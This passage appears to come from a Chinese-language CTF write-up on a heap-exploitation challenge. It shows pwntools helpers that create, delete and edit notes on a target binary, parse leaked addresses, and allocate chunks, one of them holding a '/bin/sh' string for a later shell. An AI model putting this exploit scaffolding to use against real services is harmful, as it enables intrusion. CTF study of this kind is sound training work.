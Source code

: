 ```python
            log.info(fstr)
        addr += 8

def new_note(idx:int, size:int, content:bytes=b'\x00'):
    global io, qword_0x6020e0
    assert idx >= 0 and idx <= 0x10
    io.sendlineafter("your choice: ", '1')
    io.sendlineafter("index: ", str(idx))
    io.sendlineafter("size: ", str(size))
    io.sendafter("content: ", content)
    low_bytes = io.recvline()
    log.info('get msg:{}'.format(low_bytes))
    low_bytes = low_bytes[12:-1]
    low_bytes = int16(low_bytes.decode())
    store_low = (low_bytes | idx)
    for i in range(0x11):
        if qword_0x6020e0[i][0] == 0:
            qword_0x6020e0[i] = [store_low, low_bytes]
            break
    return low_bytes, i


def del_note(idx:int):
    global io, qword_0x6020e0
    io.sendlineafter("your choice: ", '2')
    io.sendlineafter("index: ", str(idx))
    msg = io.recvline()
    count = -1
    for x in qword_0x6020e0:
        count += 1
        if (x[0] & 0xf) == idx:
            x[0] = 0
            x[1] = 0
            break
    return msg, count

def edit_note(idx:int, content:bytes):
    global io
    io.sendlineafter("your choice: ", '3')
    io.sendlineafter("index: ", str(idx))
    io.sendafter("content: ", content)
    io.recvuntil("edit success.\n\n")
```

按照利用思路分配`chunk`，并打印数组看看：

```python
# get chunk
new_note(0x10, 0x10) # idx 0 chunk A
new_note(0x1, 0x10) # idx 1 chunk B
new_note(0x2, 0x10) # idx 2 chunk C
new_note(0x3, 0x20) # idx 3 chunk D
new_note(0x4, 0x10, b'/bin/sh\x00') # idx 4 chunk E

show_qword_0x6020e0() # show array
```

